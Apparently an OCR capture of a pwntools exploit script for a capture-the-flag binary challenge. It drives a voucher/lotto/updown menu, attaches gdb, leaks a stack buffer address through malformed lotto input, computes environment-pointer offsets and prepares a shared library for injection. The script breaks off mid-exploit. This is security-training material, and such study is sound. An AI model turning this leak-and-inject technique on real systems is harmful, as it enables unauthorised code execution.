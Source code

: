 ``` python
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def put_voucher(s, new):
    s.sendline(b"1")
    s.recvuntil(b" : ")
    s.sendline(new)
    sleep(0.1)
    return s.recvuntil(b"> ")

def merge_voucher(s, old):
    s.sendline(b"2")
    s.recvuntil(b" : ")
    s.sendline(old)
    return s.recvuntil(b"> ")

def lotto(s, numbers):
    s.sendline(b"3")
    sleep(0.1)
    s.recv()
    s.sendline(numbers)
    return s.recvuntil(b"> ")

def updown(s, numbers):
    s.sendline(b"4")
    s.recvuntil(b". \n")
    for number in numbers:
        s.sendline(str(number).encode())
        s.recvuntil(b"it\n")
    return s.recvuntil(b"> ")

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
        pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
        if DEBUG:
            gdb.attach(int(pid), gs, exe=BINARY, sysroot="./")
    else:
        s = process(f"/home/user/{BINARY}")
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    
    with open("./mylib.so", "rb") as f:
        lib_data = f.read()
    lib_data = lib_data.replace(b"\x0a", b"\x0b")

    s.recvuntil(b"> ")

    updown(s, [1, 1, 1, 1, 1, 1])
    r = lotto(s, b"1 2 a 3 a 4 5 6")
    lower = int(r.split(b" : ")[0])
    upper = int(r.split(b" : ")[1].split(b"\n")[1])
    buf = upper << 32 | lower + 0x40
    log.info(f"buf : {hex(buf)}")

    env = buf + 0x1796
    env = buf + 0x326
    env_p = buf + 0x158
    env_p_p = buf + 0xe8
    log.info(f"env_p_p : {hex(env_p_p)}")
```